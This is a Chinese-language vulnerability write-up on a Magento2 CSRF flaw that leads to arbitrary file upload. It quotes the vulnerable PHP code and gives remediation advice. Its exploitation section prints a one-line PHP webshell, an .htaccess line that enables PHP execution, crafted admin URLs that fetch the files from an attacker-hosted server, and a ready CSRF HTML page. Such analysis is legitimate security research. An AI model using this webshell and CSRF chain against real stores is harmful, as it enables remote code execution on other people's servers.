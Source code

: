 ## Magento CSRF Lead To Arbitrary File Upload Vulnerability

##### Date:2017.04.18
-------
### 概述

国外安全公司DefenseCode研究人员发现了[Magento2](https://magento.com/)的一个CSRF漏洞，成功利用该漏洞可以导致任意文件上传进而实现任意代码执行。厂商至今仍未修复该漏洞。

### 漏洞原因
[Magento](https://github.com/magento/magento2)是一套专业开源的电子商务系统，可以在github上clone下代码进行代码审计及漏洞挖掘。本文要说的这个CSRF漏洞是在管理员添加产品时程序会自动请求URL中的图片链接参数remote_image，保存至本地目录并进行预览。漏洞发生在程序\app\code\Magento\ProductVideo\Controller\Adminhtml\Product\Gallery\RetrieveImage.php文件execute函数中，代码如下:
```php
public function execute()
    {
        $baseTmpMediaPath = $this->mediaConfig->getBaseTmpMediaPath();//返回路径为pub/media/tmp/catalog/product/
        try {
            $remoteFileUrl = $this->getRequest()->getParam('remote_image');
            $this->validateRemoteFile($remoteFileUrl);//验证url的协议头是否为http及https
            $originalFileName = basename($remoteFileUrl);//获取文件名称
            $localFileName = Uploader::getCorrectFileName($originalFileName);//对文件名特殊字符进行处理，返回处理后的文件名
            $localTmpFileName = Uploader::getDispretionPath($localFileName) . DIRECTORY_SEPARATOR . $localFileName;//getDispretionPath函数以文件名前两个字母作为两个目录名称
            $localFileMediaPath = $baseTmpMediaPath . ($localTmpFileName);//拼接完整文件路径
            $localUniqueFileMediaPath = $this->appendNewFileName($localFileMediaPath);//创建目录
            $this->retrieveRemoteImage($remoteFileUrl, $localUniqueFileMediaPath);//请求文件并保存
            $localFileFullPath = $this->appendAbsoluteFileSystemPath($localUniqueFileMediaPath);//返回完整路径
            $this->imageAdapter->validateUploadFile($localFileFullPath);//校验文件目录，并判断文件类型是否为图片类型。如果不是抛出异常
            $result = $this->appendResultSaveRemoteImage($localUniqueFileMediaPath);//校验通过则返回文件详细信息
        } catch (\Exception $e) {
            $result = ['error' => $e->getMessage(), 'errorcode' => $e->getCode()];
        }

        /** @var \Magento\Framework\Controller\Result\Raw $response */
        $response = $this->resultRawFactory->create();
        $response->setHeader('Content-type', 'text/plain');
        $response->setContents(json_encode($result));
        return $response;
    }
```
代码通过获取'remote_image'的参数值，这里只判断了链接协议是否为HTTP及HTTPS，并未对文件类型及后缀进行判断。得到图片链接地址并以文件前两个字母作为两个目录名称，创建目录并请求文件以原文件名保存到在创建的目录中。最后在校验保存的文件时，如果传入的文件链接不是图片类型，则抛出异常。形如:
{"error":"Disallowed file type.","errorcode":0}
其中getDispretionPath函数的代码在\lib\internal\Magento\Framework\File\Uploader.php文件614行，从代码实现可以看到获取了文件名前两个字母分别作为目录，并且如果字母为'.'时则替换为'_'，代码如下:
```php
public static function getDispretionPath($fileName)
    {
        $char = 0;
        $dispertionPath = '';
        while ($char < 2 && $char < strlen($fileName)) {
            if (empty($dispertionPath)) {
                $dispertionPath = '/' . ('.' == $fileName[$char] ? '_' : $fileName[$char]);
            } else {
                $dispertionPath = self::_addDirSeparator(
                    $dispertionPath
                ) . ('.' == $fileName[$char] ? '_' : $fileName[$char]);
            }
            $char++;
        }
        return $dispertionPath;
    }
```
retrieveRemoteImage函数调用封装的curl方法请求图片链接并保存到指定目录，其中也未做任何判断及处理，代码如下:
```php
protected function retrieveRemoteImage($fileUrl, $localFilePath)
    {
        $this->curl->setConfig(['header' => false]);
        $this->curl->write('GET', $fileUrl);
        $image = $this->curl->read();
        if (empty($image)) {
            throw new \Magento\Framework\Exception\LocalizedException(
                __('Could not get preview image information. Please check your connection and try again.')
            );
        }
        $this->fileUtility->saveFile($localFilePath, $image);
    }
```
校验目录及文件类型的函数validateUploadFile在lib\internal\Magento\Framework\Image\Adapter\AbstractAdapter.php文件711行，代码如下:
```php
public function validateUploadFile($filePath)
    {
        if (!file_exists($filePath)) {
            throw new \InvalidArgumentException("File '{$filePath}' does not exists.");
        }
        if (!getimagesize($filePath)) {
            throw new \InvalidArgumentException('Disallowed file type.');
        }
        $this->checkDependencies();
        $this->open($filePath);

        return $this->getImageType() !== null;
    }
```
虽然这里对目录及文件类型进行了校验，对于非图片类型的文件也抛出异常。但此时程序已经请求了链接并保存到本地目录中。从而实现了任意文件上传的目的。

### 漏洞利用
在说这个漏洞利用之前先了解下CSRF。CSRF（Cross-Site Request Forgery，跨站点伪造请求），攻击者构造特定请求功能的链接诱使通过认证的真正用户或管理员点击。从而实现以受害者名义伪造请求，在未授权的情况下执行在权限保护之下的操作。
利用这个漏洞的思路就是通过构造请求，让登录用户访问，从而实现上传php文件并执行。但是上面分析也说道程序下载的文件保存在了pub/media/tmp/catalog/product/+文件名第一个字母/文件名第二个字母/文件名。tmp目录php文件并不会被解析，所以这里上传webshell的同时要在同一目录上传一个.htaccess文件。 .htaccess开启这个目录的PHP解析。内容如下:
php_flag engine 1

php_flag设置可参考http://www.php.net/manual/zh/apache.configuration.php
在上传.htaccess文件时。该文件会保存为pub/media/tmp/catalog/product/_/h/.htaccess
所以php程序名称应以.h开头，如.hcmd.php,如:
```php
<?php assert($_GET[stride]);?>
```
然后构造请求，如
http://10.65.10.195/magento2/admin_1bcbxa/product_video/product_gallery/retrieveImage/?remote_image=http://10.65.10.195/webshell/.htaccess
http://10.65.10.195/magento2/admin_1bcbxa/product_video/product_gallery/retrieveImage/?remote_image=http://10.65.10.195/webshell/.hcmd.php

待管理员访问了上述链接后即可使用
http://10.65.10.195/magento2/pub/media/tmp/catalog/product/_/h/.hcmd.php访问webshell。

### 伪造请求页面
```html
<html>
<head> 
<title>Magento2(CSRF)</title> 
</head>
<body>

<h2>Magento2 CSRF TEST</h2>
<img src="http://10.65.10.195/magento2/admin_1bcbxa/product_video/product_gallery/retrieveImage/?remote_image=http://10.65.10.195/webshell/.htaccess">

<h3>Magento2 CSRF TEST</h3>
<img src="http://10.65.10.195/magento2/admin_1bcbxa/product_video/product_gallery/retrieveImage/?remote_image=http://10.65.10.195/webshell/.hcmd.php">

</body>
</html>
```
### 修复建议

这个漏洞主要有两个地方设计和实现的不够合理，所以代码的修复也会在两个地方进行修改:
>* CSRF的修复，增加对refer的检测或使用Token防御CSRF攻击
>* 在请求预览图片时先校验文件及类型的合法性，然后再保存

### 参考

[1] http://www.defensecode.com/advisories/DC-2017-04-003_Magento_Arbitrary_File_Upload.pdf
[2] http://www.php.net/manual/zh/apache.configuration.php
[3] http://www.freebuf.com/articles/web/55965.html




